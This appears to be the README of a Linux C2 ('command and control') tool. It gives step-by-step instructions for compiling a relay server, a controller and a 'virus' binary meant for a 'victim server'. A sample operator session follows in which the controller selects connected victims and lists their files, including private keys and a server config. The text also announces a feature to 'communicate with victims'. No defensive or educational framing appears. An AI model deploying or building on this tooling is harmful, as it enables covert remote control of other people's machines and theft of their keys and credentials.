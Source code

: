 Linux Server C2 Controller

Step 1:

Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address

Step 2:

Copy tcsl.cpp to your Linux Server

virus.cpp to your victim server

host.cpp to your local machine as control side

and then compile:

g++ tcsl.cpp -o tcsl

g++ host.cpp -o host

g++ virus.cpp -o server

Step 3: 

Open terminals and run the command seperately:

./tcsl

Support any amounts of Clients' connections

the Host and Client is auto-recognized:

./virus

./host

Step 4:

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

Step 5:

Enjoy your commands in the host terminal and control your client as terminal.

For example:

Connected to the server.

No client connected.

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt

ca.key

dh.pem

ha.crt

ha.key

hr0g.crt

hr0g.key

server.conf

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt

ca.key

dh.pem

ha.crt

ha.key

hr0g.crt

hr0g.key

server.conf

┌──(root♪hr0g) - [~1]

└─# hs 2

Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
